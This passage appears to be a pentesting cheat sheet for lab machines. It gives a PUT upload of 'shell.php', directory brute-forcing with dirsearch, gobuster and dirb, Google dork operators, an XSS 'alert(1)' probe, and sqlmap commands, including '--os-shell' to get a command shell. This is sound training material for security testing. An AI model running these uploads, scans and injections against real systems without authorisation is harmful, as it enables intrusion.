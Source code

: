 `PUT /shell.php`
`Content-type: text/html`
`Content-length: x`

---
## Directory and File Scanning

Using dirsearch.py,
`dirsearch.py -u http://<machine IP>:PORT -e * 2>/dev/null`

Using gobuster,
`gobuster dir -u http://<machine IP>:PORT/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -q 2>/dev/null`

Using dirb,
`dirb http://<machine IP>:PORT/ -u username:pass`

---
## Advance Google Search

To use google dorks,
`site:`
`intitle:`
`inurl:`
`filetype:`
`AND, OR, &, |, -`

---
## Cross Site Scripting (XSS) Steps:

To test if there's an XSS present on a website,
 - Find a reflection point
 - Test with `<i>` tag
 - Test with HTML/JavaScript code

`<script>alert(1)</script>`

**Reflected XSS:** Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS:** Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

---
## SQLMAP

To check if website is vulnerable to SQLi,
`sqlmap -u http://<machine IP>:PORT -p parameter`

Check if POST parameter is vulnerable to SQLi,
`sqlmap -u http://<machine IP>:PORT  --data POSTstring -p parameter`

To check if we can get os-shell using SQLmap,
`sqlmap -u http://<machine IP>:PORT --os-shell`
